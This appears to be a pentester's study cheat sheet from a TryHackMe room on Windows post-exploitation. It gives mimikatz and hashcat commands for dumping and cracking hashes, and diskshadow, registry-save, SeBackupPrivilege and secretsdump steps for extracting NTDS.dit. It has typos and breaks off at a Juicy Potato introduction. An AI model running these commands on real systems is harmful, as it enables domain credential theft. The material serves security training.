### Dump SAM using MIMIKATZ
https://tryhackme.com/room/postexploit  
[HASHCAT](evernote:///view/154730691/s619/abde3799-29f6-bbe2-b038-8bd119e2604c/1d460891-63f3-60f9-1414-81daf5a18a5c/)

- Upload mimikatz on the target machine and run it like so

	Dumping hashes

		privilege::debug
		lsadump::lsa /patch
		hashcat -m 1000 <hash> rockyou.txt

### Extract `NTDIS.sys` with Discshadow
https://roberthosborne.com/privesc

- Create a backup of the system volume and extract ntds.sys from it.

- Create a file named script.txt

		set context persistent nowriters
		set verbose on
		begin backup
		add volume c: alias mydrive

		create

		expose %mydrive% w:
		end backup

- Convert the script to dos format (IMPORTANT !!!)

		unix2dos script.txt

- Run diskshadow on the windows server

		diskshadow.exe /s c:\script.txt

- Import system hive from registry

		reg save hklm\system c:\temp\system.bak

- Copy NTDS.dit

- If we have the backupprivilege

		Import-Module .\SeBackupPrivilegeUtils.dll
		Import-Module .\SeBackupPrivilegeCmdLets.dll

		Copy-FileSebackupPrivilege w:\Windows\NTDS\ntds.dit c:\temp\ndts.dit

- If we don't have the backupprivilege
	https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy

		Dump NTDS.dit with impacket secretdump
		secretsdump.py -ntds ntds.dit -system system.bak LOCAL

### Abuse SeImpersonatePrivilege (Juicy Potato)
Windows uses tokens to ensure that accounts have the right privileges to carry out particular actions. Account tokens are assigned to an account when users log in or are authenticated. This is usually done by LSASS.exe(think of this as an authentication process).
